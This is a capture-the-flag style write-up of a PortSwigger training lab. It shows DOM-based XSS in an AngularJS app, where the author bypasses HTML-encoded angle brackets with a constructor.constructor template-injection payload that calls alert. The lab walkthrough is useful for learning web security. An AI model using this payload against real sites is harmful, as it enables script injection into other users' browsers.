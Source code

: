 # DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded | Dec 30, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression), you'll learn: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in a [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the `ng-app` attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that executes an AngularJS expression and calls the `alert` function.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054630.png)

In here, we can see there is a search box.

**Let's search something:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054649.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054701.png)

As you can see, our input is reflected to the web page.

**View source page:**
```html
<script type="text/javascript" src="/resources/js/angular_1-7-7.js"></script>
<script type="text/javascript" src="[/resources/js/angular_1-7-7.js](https://0a8e004c03d8b169c3a2c4e80031004c.web-security-academy.net/resources/js/angular_1-7-7.js)"></script>
    <title>DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded</title>
</head>
<body ng-app>
```

In here, we see the **AngularJS JavaScript library is being used, and the `<body>` tag is in `ng-app` directive.**

**Let's try to inject some JavaScript code:**
```html
<script>alert(document.domain)</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054921.png)

**View source page:**
```html
<section class=blog-header>
    <h1>0 search results for '&lt;script&gt;alert(document.domain)&lt;/script&gt;'</h1>
    <hr>
</section>
```

As you can see, the `<>` is HTML encoded.

**However, since AngularJS is being used, we can execute JavaScript expressions within double curly braces:** (From [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md#storedreflected-xss---simple-alert-in-angularjs))
```js
{{constructor.constructor('alert(document.domain)')()}}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230055646.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230055653.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230055709.png)

We did it!

# What we've learned:

1. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded